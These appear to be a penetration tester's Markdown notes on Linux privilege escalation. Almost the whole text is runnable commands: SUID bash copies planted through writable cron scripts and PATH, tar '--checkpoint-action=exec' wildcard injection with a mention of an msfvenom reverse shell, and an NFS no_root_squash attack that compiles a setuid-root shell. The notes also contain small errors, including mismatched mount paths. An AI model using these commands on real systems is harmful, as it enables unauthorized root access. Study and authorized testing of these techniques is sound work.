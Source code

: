 #### Cron Path

PATH variable of files
```bash
echo 'cp /bin/bash /tmp/bash; chmod +xs /tmp/bash' > /home/user/privescCron
chmod +x /home/user/privescCron
/tmp/bash -p
```

#### Cron Wildcards

Either 1. use native binaries OR 2. msfvenom reverse shell
```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/privescCron # Only 1st
touch /home/user/--checkpoint=1 # BOTH require this
touch /home/user/--checkpoint-action=exec=sh\ runme.sh #..=exec=shell.elf
/tmp/bash -p # Only 1st
```

#### Cron File Permissions 

```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/privescCron
/tmp/bash -p
```

## Services

Find services running as root and consider whether they are exploitable if no password is set!
```bash
ps -aux | grep root
```

## NFS root squashing - found ls -la /etc/exports ?

Network File System (NFS) is network hosted file and directory sharing on [[Network-Protocols]] TCP/UPD 2049 and 111 - is it `no_root_squash`

Options:
- `root_squash` 
	- All access, creation and upload will be changed to the unprivileged account  `nfsnobody`
- `no_root_squash`:
	- Remote users connect as the local root user - SUID bits can be set! 

Find  `no_root_squash` 
```bash
# From Host
showmount -e $remoteIP
mkdir /mnt/$nameofmount
# version 2 does not have authenication or authorization 
mount -o rw,vers=2 $remoteIP:/$ExportedLocation /tmp/$nameofmount  # -nolock
echo '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\nint main() {\n    setgid(0); setuid(0); system("/bin/bash"); return 0;\n}' > /tmp/nameofmount/x.c
gcc /tmp/nameofmount/x.c -o /tmp/nameofmount/x

sudo mount -t nfs $IP:/$nameofmount /mnt
chmod u+s /mnt/$nameofmount/x
# Target
/mnt/nameofmount/x
# Unmount
sudo umount /$path
```
